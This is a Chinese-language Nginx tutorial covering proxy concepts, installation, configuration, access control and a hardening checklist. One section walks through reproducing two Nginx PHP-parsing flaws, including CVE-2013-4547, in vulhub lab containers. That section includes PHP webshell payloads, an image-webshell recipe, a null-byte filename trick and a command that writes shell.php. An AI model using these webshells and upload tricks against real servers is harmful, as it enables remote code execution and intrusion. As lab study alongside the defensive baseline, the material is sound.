


## 一、 Nginx服务器简介

Nginx 是一个高性能的HTTP和反向代理web服务器，同时也提供了IMAP/POP3/SMTP服务。

## 二、 正向代理和反向代理

### 1、 正向代理

我们常说的代理也就是只正向代理，正向代理的过程，**它隐藏了真实的请求客户端**，服务端不知道 真实的客户端是谁，客户端请求的服务都被代理服务器代替来请求，某些科学上网工具扮演的就是典型 的正向代理角色。用浏览器访问 http://www.google.com时，被残忍的block，于是你可以在国外搭建一 台代理服务器，让代理帮你去请求google.com，代理把请求返回的相应结构再返回给你。

### 2、 反向代理  

**反向代理隐藏了真实的服务端**，当我们请求 www.baidu.com的时候，背后可能有成千上万台服务器 为我们服务，但具体是哪一台，你不知道，也不需要知道，你只需要知道反向代理服务器是谁就好了， www.baidu.com就是我们的反向代理服务器，反向代理服务器会帮我们把请求转发到真实的服务器那里去。Nginx就是性能非常好的反向代理服务器，用来做**负载均衡**。

## 三、 CentOS 7 中 Nginx 的安装

### 安装

```
yum -y install epel-release 
yum info nginx 
yum install nginx 
nginx
```

###  Nginx相关命令

```
nginx -s reopen 			#重启Nginx
nginx -s reload 			#重新加载Nginx配置文件，然后以优雅的方式重启Nginx
nginx -s stop 				#强制停止Nginx服务
nginx -s quit 				#优雅地停止Nginx服务（即处理完所有请求后再停止服务）
nginx -t 				    #检测配置文件是否有语法错误，然后退出
nginx -v 					#显示版本信息并退出
killall nginx 				#杀死所有nginx进程
```


```
Options:
  -?,-h         : 这是帮助
  -v            : 显示版本并退出
  -V            : 显示版本和配置选项，然后退出
  -t            : 测试配置和退出
  -T            : 测试配置，转储并退出
  -q            : 在配置测试期间抑制非错误消息
  -s signal     : 向主进程发送信号：停止、退出、重新打开、重新加载
  -p prefix     : 设置前缀路径（默认：/usr/share/nnginx/）
  -e filename   : 设置错误日志文件（默认：/var/log/nnginx/error.log）
  -c filename   : 设置配置文件（默认：/etc/nginx/nginx.conf）
  -g directives : 在配置文件之外设置全局指令
```

## 四、 Nginx配置文件详解

### 配置文件

```
vim /etc/nginx/nginx.conf
```

### 查看文件

```
cat /etc/nginx/nginx.conf |egrep -v "#|^$" >nginx.conf
```


```nginx
user nginx;								   #运行Nginx的用户
worker_processes auto;			   		    #允许生成的worker进程数，auto表示自动分配，一般等于服务器核数
error_log /var/log/nginx/error.log;		     #错误日志存放路径
pid /run/nginx.pid;					 	   #Nginx进程pid存放路径
include /usr/share/nginx/modules/*.conf;	 #Nginx进程pid存放路径
events {
    worker_connections 1024;			    #单个工作进程可以同时建立的外部连接数量
}
http {
    log_format  main  '$remote_addr - $remote_user [$time_local] "$request" '
                      '$status $body_bytes_sent "$http_referer" '
                      '"$http_user_agent" "$http_x_forwarded_for"';	 			#日志格式
    access_log  /var/log/nginx/access.log  main;							  #访问日志存放位置以及使用的日志格式
    sendfile            on;		 											#提高文件传输速度
    tcp_nopush          on;									 #启用后数据包会累积一下再一起传输，可以提高一些传输效率。
    tcp_nodelay         on;		 #小的数据包不等待直接传输。默认为on。看上去是和tcp_nopush相反的功能，但是两边都为 on 时 nginx 也可以平衡这两个功能的使用。
    keepalive_timeout   65;		 #长连接超时时间
    types_hash_max_size 4096;	 #该参数指定了存储MIME type与文件扩展名的散列的最大大小
    include             /etc/nginx/mime.types;	 			# 文件扩展名与文件类型映射表
    default_type        application/octet-stream;			#如果没对应文件的扩展名，就用 default_type定义的处理方式。
    include /etc/nginx/conf.d/*.conf;
    server {
        listen       80;						 #监听端口
        listen       [::]:80;					 #ipv6监听端口
        server_name  _;							#用于配置基于名称的虚拟主机
        root         /usr/share/nginx/html;		  #网站根目录

        server_tokens off; 						 #关闭服务器令牌信息，配置文件默认没有
        limit_rate 1024000; 		#限制响应给客户端的传输速率，单位是字节默认值0表示无限制，可以使用一个大文件用来实验效果
        autoindex off;  						#是否启用目录索引

        # Load configuration files for the default server block.
        include /etc/nginx/default.d/*.conf;	
        error_page 404 /404.html;				 #定义了当服务器返回 404 错误时显示的页面
        location = /404.html {					#指定了当请求的路径为 /404.html 时，如何处理该请求。
        }
        error_page 500 502 503 504 /50x.html;	 #定义了当服务器返回 500、502、503 或 504 错误时，应显示的页面
        location = /50x.html {					#指定了当请求的路径为 /50x.html 时，如何处理该请求
        }
    }
}
```

#### 网页根目录

```
cd /usr/share/nginx/html
```

###  Nginx访问控制

```
mkdir /usr/share/nginx/html/test
echo 'this is test' > /usr/share/nginx/html/test/index.html
```

#### 示例1：禁止所有人

**禁止所有人**访问 `/test/index.html` 文件

```
location = /test/index.html {
 deny all;
}
```

```
nginx -s reload
```

**精确匹配高于前缀匹配**，和配置文件的顺序无关

```
location /test/ {
 deny all;
}
```

#### 示例2：仅拒绝

**仅拒绝 192.168.0.100** 访问 `/test/index.html` 文件

```
location = /test/index.html {
 deny 192.168.0.100;
 allow all;
}
```

#### 示例3：仅允许

**仅允许 192.168.0.100** 访问 `/test/index.html` 文件

```
location = /test/index.html {
 allow 192.168.0.100;
 deny all;
}
```

#### 示例4：仅允许特定用户访问

**仅允许特定用户**访问 `/test/index.html` 文件

##### 安装httpd-tools

```
yum install httpd-tools -y
```

##### 创建认证用户

```
htpasswd -c /var/nguser test
htpasswd /var/nguser tom
```

密码：`123456`-

##### 编辑配置文件

访问 `/test/index.html`文件时需要**登录认证**

```
location = /test/index.html {
 auth_basic "Please input your username and password";
 auth_basic_user_file /var/nguser;
}
```

### 设置虚拟主机

#### 通过端口设置

```
server {
 listen 81;
 server_name _;
 root /usr/share/nginx/html/a;
}
```

#### 通过域名设置

```
server {
 listen 80;
 server_name www.a.com;
 root /usr/share/nginx/html/a;
}
```

## 五、Nginx漏洞复现

### Nginx 解析 PHP 文件流程

Nginx与Apache一样，自身是不支持解析PHP语言的，只能通过加载PHP模块来解析PHP。

```
location ~ \.php$ {
 include       fastcgi_params; 
 fastcgi_pass   127.0.0.1:9000;	# 指定 PHP-FPM 服务器的地址和端口，以便 NGINX 可以转发 PHP 请求进行处理
 fastcgi_index  index.php;		# 指定了默认的 PHP 文件名
 fastcgi_param  SCRIPT_FILENAME  /var/www/html$fastcgi_script_name;	# 告诉 PHP-FPM 要执行的 PHP 文件的完整路径
 fastcgi_param  DOCUMENT_ROOT /var/www/html;	# 定义了PHP文件的根目录
}
```

#### 大致流程如下

- 客户端（如 web 浏览器）发送一个请求到 NGINX。
- NGINX 根据其配置确定该请求是一个 PHP 请求。
- NGINX 将请求转发到 PHP-FPM（负责管理 PHP 工作进程池，这些进程实际执行 PHP 脚本）。
- PHP-FPM 选择一个子进程来执行请求的 PHP 脚本。
- PHP 脚本执行并产生一个输出（例如 HTML）。
- PHP-FPM 将输出返回给 NGINX。
- NGINX 将输出发送回客户端。

### 1、Nginx解析漏洞

#### 漏洞成因

该漏洞**与Nginx、php版本无关**，属于用户配置不当造成的解析漏洞，主要与以下两个配置有关。 

##### 1.自动修复访问路径

```
cgi.fix_pathinfo=1 
```

该配置会**自动修复访问路径**，例：在访问 http://192.168.228.1/test.jpg/test.php  时，如果发现没有  test.php 就会向上匹配到 test.jpg 文件 

##### 2.任意后缀名解析为 PHP

```
security.limit_extensions=空 
```

该配置设置哪些后缀可以解析为 PHP ，**为空表示任意后缀名都可以解析为 PHP**

#### 漏洞复现

##### 1.启动

```
cd  /root/vulhub/nginx/nginx_parsing_vulnerability
docker-compose up -d
```

###### 查看端口

```
docker ps -s
```


访问80端口

http://192.168.70.14


##### 2.制作图片马

###### 格式

```
copy 图片文件名/b+一句话木马文件名 图片马文件名
```

###### 制作

```
copy 1.png/b+xxx.php xxx.png
```


##### 3.上传图片码


```
http://192.168.70.14/uploadfiles/a976285aa6d6096e9edd17db289a73a9.png
```


##### 4.添加/abc.php路径

如果发现没有 `abc.php` 就会向上匹配到 `.png` 文件

在图片马路径后添加 /abc.php，成功按照PHP解析

```
http://192.168.70.14/uploadfiles/a976285aa6d6096e9edd17db289a73a9.png/abc.php
```


##### 5.蚁剑连接

```
http://192.168.70.14/uploadfiles/a976285aa6d6096e9edd17db289a73a9.png/abc.php
xxx
```


### 2、CVE-2013-4547（文件名逻辑漏洞）复现

#### 漏洞介绍

该漏洞利用了Nginx错误的解析了URL地址，导致可以绕过服务端限制，从而解析PHP文件，造成命 令执行的危害。 

根据`nginx.conf`文件中`location`中的定义，以.php结尾的文件都解析为php。 

`shell.gif[空格][0x00].php` ，该文件名以.php结尾会被发送给 PHP 若我们访问的文件名为  FPM 处理，但是 PHP-FPM 在读取文件名时被00截断，导致读取的文件名为shell.gif[空格]，配合 limit_extensions为空即可利用成功。

#### 利用条件 

该漏洞利用条件有两个： 

- `Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7` 
- `security.limit_extensions=空`

#### 漏洞复现

##### 1.启动

```
cd /root/vulhub/nginx/CVE-2013-4547
docker-compose up -d
```

###### 查看端口

```
docker ps -s
```


访问8080端口

http://192.168.70.14:8080


##### 2.上传文件

###### 文件名

```
xxx.php[空格][0x00].php
```

###### 文件内容

```
GIF89a
<?php @eval($_POST["xxx"])?>
<?php system($_POST["cmd"])?>
```


###### burpsuite抓包

文件夹名**添加两个空格**，将第二个空格16进制的`20`改成`00`截断


##### 3.文件路径

访问文件路径，burpsuite抓包

http://192.168.70.14:8080/uploadfiles/xxx.pnga

burpsuite抓包改成`xxx.png[空格][0x00].php`

```
http://192.168.70.14:8080/uploadfiles/xxx.png[空格][0x00].php
```




##### 4.改为POST请求

输入命令

```
cmd=whoami
```


##### 5.写入一句话木马

```
cmd=echo '<?php @eval($_POST["xxx"]);?>' >shell.php;ls
```


##### 6.蚁剑连接

```
http://192.168.70.14:8080/uploadfiles/shell.php
xxx
```




## 六、Nginx基线检查

### 一、server_tokens基线 

`server_tokens`指令负责在错误页面和`ServerHTTP`响应头字段中**显示NGINX版本号和操作系统版本**。不应显示此信息。

#### 操作方法 

在 nginx 配置文件中的 http 块配置 

```
server_tokens off;
```

### 二、 Nginx是否禁止隐藏文件的访问 

**禁用隐藏文件**是一种深度防御机制，有助于防止意外泄露敏感信息。

#### 操作方法 

编辑nginx配置文件，添加以下配置：

```
location ~ /\. {
 deny all;
}
```


### 三、Nginx是否禁用autoindex功能 

Nginx `autoindex` 指令用于配置 Nginx 的**目录浏览功能**，开启目录浏览可能会导致信息泄露。

#### 操作方法 

编辑 Nginx 配置文件，将配置文件中的 `autoindex` 设置为 `off`

```
autoindex off;
```


### 四、是否隐藏Nginx后端服务X-Powered-By头 

`x-powered-By` 表示网站是**用什么技术开发**的，它会**泄漏开发语言、版本号和框架等信息**,有安全隐患，需要隐藏掉。

#### 操作方法 

在配置文件的 http 块下配置如下内容

```
proxy_hide_header X-Powered-By;  
proxy_hide_header Server;  
```

### 五、是否限制Nginx账户登录系统 

Nginx帐户**不应该具有登录的能力**，防止Nginx账户被恶意利用。

#### 操作方法 

修改 `/etc/passwd` 配置文件中 nginx 用户的登录 Shell 字段，设置为：`/usr/sbin/nologin`（debian ，ubuntu）或 `/sbin/nologin`（centos），可以使用下列命令修改。

```
chsh -s /sbin/nologin nginx
```

锁定nginx用户

```
passwd -l nginx 
```


### 六、 Nginx配置文件权限配置是否合适 

nginx 配置文件的**所有者**和**所属组**应为 `root`，且**权限**不宜过高

#### 操作方法 

设置 nginx 配置文件的用户和用户组为 root，权限为 644

```
chown root:root /etc/nginx/nginx.conf /etc/nginx/conf.d/*.conf /etc/nginx/default.d/*.conf
chmod 644 /etc/nginx/nginx.conf /etc/nginx/conf.d/*.conf /etc/nginx/default.d/*.conf
```

### 七、Nginx的WEB访问日志是否记录 

应为每个站点启用 `access_log` 。

#### 操作方法 

编辑 Nginx 配置文件，在http下参考如下格式配置 `access_log` 

```
access_log logs/access.log main;
```

